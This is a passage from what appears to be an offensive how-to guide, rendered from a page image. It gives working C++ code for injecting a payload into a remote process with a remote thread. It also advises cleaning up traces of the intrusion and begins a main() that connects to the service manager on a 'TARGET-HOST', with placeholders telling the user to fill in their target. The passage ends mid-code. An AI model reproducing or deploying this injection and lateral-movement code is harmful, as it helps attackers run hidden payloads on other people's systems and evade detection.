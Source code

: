    **Example**: If using process injection:
   ```cpp
   // Example of remote thread injection into a process on the target
   HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, targetProcessId);
   LPVOID pRemoteMemory = VirtualAllocEx(hProcess, NULL, payloadSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
   WriteProcessMemory(hProcess, pRemoteMemory, payload, payloadSize, NULL);
   CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)pRemoteMemory, NULL, 0, NULL);
   ```

4. **Clean Up**:
   - After execution, clean up any traces by closing handles, deallocating memory, and restoring any modified service configurations.


### **C++ Code Example: Remote Process Injection**

```cpp
#include <windows.h>
#include <iostream>

bool InjectPayload(HANDLE hProcess, LPVOID payload, SIZE_T payloadSize) {
    // Allocate memory in the remote process
    LPVOID pRemoteMemory = VirtualAllocEx(hProcess, NULL, payloadSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    if (pRemoteMemory == NULL) {
        std::cerr << "Failed to allocate memory in remote process." << std::endl;
        return false;
    }

    // Write the payload to the allocated memory
    if (!WriteProcessMemory(hProcess, pRemoteMemory, payload, payloadSize, NULL)) {
        std::cerr << "Failed to write payload to remote process memory." << std::endl;
        VirtualFreeEx(hProcess, pRemoteMemory, 0, MEM_RELEASE);
        return false;
    }

    // Create a remote thread to execute the payload
    HANDLE hRemoteThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)pRemoteMemory, NULL, 0, NULL);
    if (hRemoteThread == NULL) {
        std::cerr << "Failed to create remote thread." << std::endl;
        VirtualFreeEx(hProcess, pRemoteMemory, 0, MEM_RELEASE);
        return false;
    }

    // Wait for the remote thread to finish
    WaitForSingleObject(hRemoteThread, INFINITE);
    CloseHandle(hRemoteThread);

    // Free the allocated memory
    VirtualFreeEx(hProcess, pRemoteMemory, 0, MEM_RELEASE);

    return true;
}

int main() {
    const wchar_t* targetHost = L"\\TARGET-HOST"; // Change this to the target hostname
    DWORD targetProcessId = 1234; // Change this to the target process ID

    // Step 1: Open a connection to the SCM on the target machine
    SC_HANDLE hSCManager = OpenSCManagerW(targetHost, NULL, SC_MANAGER_CONNECT);
    if (hSCManager == NULL) {
        std::cerr << "Failed to connect to the Service Control Manager on the target machine." << std::endl;
```